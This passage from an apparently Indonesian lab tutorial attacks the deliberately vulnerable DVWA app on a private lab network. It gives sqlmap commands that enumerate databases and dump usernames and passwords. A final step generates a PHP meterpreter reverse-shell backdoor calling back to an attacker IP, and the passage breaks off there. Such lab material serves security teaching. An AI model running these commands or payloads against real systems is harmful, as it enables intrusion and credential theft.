 jika ada pemrtanyaan, pilih yes. Setelah proses selesai, hasilnya kan sepertin ini :

![alt text](https://github.com/hendradn/pksj2017/blob/master/FP/Screenshoot/18.PNG)

Data tersebut merupakan database yang sedang digunakan

8. Menggunakan sqlmap untuk dapatkan semua database yang ada

Jalankan perintah :
```
./sqlmap.py -u "http://10.0.1.100/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="PHPSESSID=lpb5g4uss9kp70p8jccjeks621; security=low" --dbs
```
Ket : sesuaikan data dengan langkah ke 4

Jika berhasil maka akan seperti gambar di bawah ini :

![alt text](https://github.com/hendradn/pksj2017/blob/master/FP/Screenshoot/19.PNG)

9. MEnggunakan sqlmap untuk dapatkan isi username dan password database DVWA
```
./sqlmap.py -u "http://10.0.1.100/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="PHPSESSID=lpb5g4uss9kp70p8jccjeks621; security=low" -D dvwa --tables
```
Ket : sesuaikan data dengan langkah ke 4

![alt text](https://github.com/hendradn/pksj2017/blob/master/FP/Screenshoot/20.PNG)
Jalankan perintah :
```
./sqlmap.py -u "http://10.0.1.100/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="PHPSESSID=lpb5g4uss9kp70p8jccjeks621; security=low" -D dvwa -T users --columns
```
Ket : sesuaikan data dengan langkah ke 4
![alt text](https://github.com/hendradn/pksj2017/blob/master/FP/Screenshoot/21.PNG)
Jalankan perintah :
```
./sqlmap.py -u "http://10.0.1.100/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="PHPSESSID=lpb5g4uss9kp70p8jccjeks621; security=low" -D dvwa -T users -C user,password --dump
```
Ket : sesuaikan data dengan langkah ke 4
![alt text](https://github.com/hendradn/pksj2017/blob/master/FP/Screenshoot/22.PNG)
### Lesson 8: Upload PHP Backdoor Payload

1. Jalankan perintah :
```

    mkdir -p /root/backdoor
    cd /root/backdoor
    msfpayload php/meterpreter/reverse_tcp LHOST=10.0.1.102 LPORT=4444 R > PHONE_HOME.php
    ls -l PHONE_HOME.php

```
Ket = 10.0.1.102 ip backtrack
